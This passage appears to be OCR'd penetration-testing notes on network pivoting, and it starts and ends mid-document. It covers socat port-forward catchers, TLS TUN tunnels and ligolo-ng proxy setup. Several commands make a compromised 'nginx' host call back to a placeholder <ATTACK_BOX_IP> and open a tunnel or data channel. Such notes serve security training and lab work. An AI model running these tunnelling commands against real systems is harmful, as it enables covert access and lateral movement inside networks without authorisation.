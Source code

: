 
```
[[ Socat~Call ]]
lsof -i tcp:9999
	#check to make sure our local port forward is ready
lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
	#check to make sure catcher is ready
cat /tmp/PROOF
callMe.sh 127.0.0.1 9999 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#notice a request from nginx, even though we sent the request to loopback on port 9999.
```


### tun interface

First we setup a tls server

```
[[ Socat~Listener ]]
sudo socat -d -d OPENSSL-LISTEN:8888,fork,reuseaddr,cert=server.pem,cafile=server.pem,verify=1 TUN:10.13.37.2/30,up
```

Next we call into that server

```
[[ Socat~RemoteForward ]]
ssh root@nginx 'socat -d -d openssl-connect:<ATTACK_BOX_IP>:8888,cert=server.pem,cafile=server.crt,verify=0 TUN:10.13.37.1/30,up'
```

After calling in, we have a tun interface on each machine that can communicate with each other over tcp/udp/icmp/other layer three protocols.
```
[[ Socat~Call ]]
ip a
ping -c 1 10.13.37.1
```

Now that we have our tun interface, we have to set up our iptables and routing as we did for the ssh tun interface.

## ligolo

### First agent

#### Start server

```
[[ Ligolo~Server ]]*
cd tools/ligolo-ng
sudo ./proxy -selfcert
certificate_fingerprint
	#Hold onto this fingerprint, you will need it in a second
interface_create --name ligolo
```
